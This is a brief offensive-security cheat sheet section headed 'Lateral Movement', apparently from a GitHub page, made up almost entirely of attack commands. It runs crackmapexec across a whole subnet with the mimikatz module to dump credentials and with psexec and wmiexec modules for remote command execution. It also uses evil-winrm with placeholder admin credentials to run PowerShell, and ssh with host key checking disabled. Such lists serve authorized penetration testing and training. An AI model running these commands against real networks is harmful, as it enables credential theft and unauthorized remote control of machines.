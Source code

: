 ### 6.2 Lateral Movement
    crackmapexec smb 192.168.1.0/24 -u user -p pass -M mimikatz
    evil-winrm -i 192.168.1.10 -u admin -p Password123
    ------
    crackmapexec smb 192.168.1.0/24 -u user -p pass -M psexec -o psexec_success.txt
    crackmapexec rdp 192.168.1.0/24 -u user -p pass -o rdp_success.txt
    evil-winrm -i 192.168.1.10 -u admin -p Password123 -e "powershell -c 'Get-Process'"
    ssh -o StrictHostKeyChecking=no user@192.168.1.15 "whoami"
    ------
    crackmapexec smb 192.168.1.0/24 -u user -p pass -M wmiexec -o wmiexec_success.txt -x "whoami"
    crackmapexec ldap 192.168.1.0/24 -u user -p pass -o ldap_success.txt --pass-pol
    evil-winrm -i 192.168.1.10 -u admin -p Password123 -e "powershell -c 'Invoke-Command -ComputerName remotehost -ScriptBlock { Get-Process }'"
    ssh -o StrictHostKeyChecking=no -i id_rsa user@192.168.1.15 "ls -l"